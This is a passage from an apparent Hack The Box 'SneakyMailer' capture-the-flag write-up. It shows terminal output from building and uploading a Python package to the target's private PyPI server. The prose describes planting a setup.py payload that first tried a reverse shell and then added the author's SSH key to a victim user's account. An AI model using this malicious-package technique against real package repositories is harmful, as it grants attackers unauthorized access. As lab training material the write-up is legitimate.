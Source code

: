 ```bash
kali@kali:~/Desktop/htb/sneakymailer/pypi$ python setup.py sdist
running sdist
running egg_info
creating jib1337.egg-info
writing jib1337.egg-info/PKG-INFO
writing top-level names to jib1337.egg-info/top_level.txt
writing dependency_links to jib1337.egg-info/dependency_links.txt
writing manifest file 'jib1337.egg-info/SOURCES.txt'
reading manifest file 'jib1337.egg-info/SOURCES.txt'
writing manifest file 'jib1337.egg-info/SOURCES.txt'
warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md

running check
creating jib1337-1.337
creating jib1337-1.337/jib1337
creating jib1337-1.337/jib1337.egg-info
copying files to jib1337-1.337...
copying setup.py -> jib1337-1.337
copying jib1337/__init__.py -> jib1337-1.337/jib1337
copying jib1337.egg-info/PKG-INFO -> jib1337-1.337/jib1337.egg-info
copying jib1337.egg-info/SOURCES.txt -> jib1337-1.337/jib1337.egg-info
copying jib1337.egg-info/dependency_links.txt -> jib1337-1.337/jib1337.egg-info
copying jib1337.egg-info/top_level.txt -> jib1337-1.337/jib1337.egg-info
Writing jib1337-1.337/setup.cfg
creating dist
Creating tar archive
removing 'jib1337-1.337' (and everything under it)
```
5. Create the .pypirc file in the user home (see .pypirc)
6. Upload the file to the server.
The first payload I tried was a reverse shell, however all I ended up doing was shelling my own machine (lol), after which the upload would fail because setup.py couldn't finish. I forgot that setup.py would execute on my machine before the server. I can't use a try/catch with the reverse shell because there's no simple way in which the setup.py can tell my machine and the victim apart. I needed a payload that would fail gracefully on my machine and not mess with the setup. That led me to adding my pubkey to the ssh directory of user low instead. The try/catch will fail gracefully without needing to create extra processes like the reverse shell.  
The upload succeeds.
```bash
kali@kali:~/Desktop/htb/sneakymailer/pypi$ python setup.py sdist register -r sneakycorp upload -r sneakycorp
running sdist
running egg_info
writing jib1337.egg-info/PKG-INFO
writing top-level names to jib1337.egg-info/top_level.txt
writing dependency_links to jib1337.egg-info/dependency_links.txt
reading manifest file 'jib1337.egg-info/SOURCES.txt'
writing manifest file 'jib1337.egg-info/SOURCES.txt'
warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md

running check
creating jib1337-1.337
creating jib1337-1.337/jib1337
creating jib1337-1.337/jib1337.egg-info
copying files to jib1337-1.337...
copying setup.py -> jib1337-1.337
copying jib1337/__init__.py -> jib1337-1.337/jib1337
copying jib1337.egg-info/PKG-INFO -> jib1337-1.337/jib1337.egg-info
copying jib1337.egg-info/SOURCES.txt -> jib1337-1.337/jib1337.egg-info
copying jib1337.egg-info/dependency_links.txt -> jib1337-1.337/jib1337.egg-info
copying jib1337.egg-info/top_level.txt -> jib1337-1.337/jib1337.egg-info
```